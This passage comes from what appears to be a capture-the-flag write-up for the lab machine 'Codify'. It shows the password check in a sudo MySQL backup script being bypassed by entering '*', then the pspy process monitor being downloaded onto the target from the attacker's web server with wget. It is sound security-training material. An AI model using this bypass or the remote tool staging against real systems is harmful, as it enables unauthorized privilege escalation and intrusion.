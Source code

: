 
#### Bypass + Monitor

When the script is run, it prompts for a password:

    
    
    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    

Entering the wrong password exits the script:

    
    
    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmation failed!
    

However, entering “*” (the input is not shown on the terminal because the `-s`
flag is used with `read`) bypasses the check:

    
    
    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmed!
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Backing up database: mysql
    mysqldump: [Warning] Using a password on the command line interface can be insecure.
    -- Warning: column statistics not supported by the server.
    mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
    mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
    Backing up database: sys
    mysqldump: [Warning] Using a password on the command line interface can be insecure.
    -- Warning: column statistics not supported by the server.
    All databases backed up successfully!
    Changing the permissions
    Done!
    

To watch for the processes, I’ll upload PSpy. I’ll download the [latest
release](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) (v1.2.1
at the time of writing this post), and save it in `/opt` on my host. Now I’ll
serve that directory with a Python web server:

    
    
    oxdf@hacky$ python -m http.server 80 -d /opt/
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

I’ll fetch it from Codify:

    
    
    joshua@codify:/dev/shm$ wget 10.10.14.6/pspy64
    --2024-04-04 16:37:21--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’
    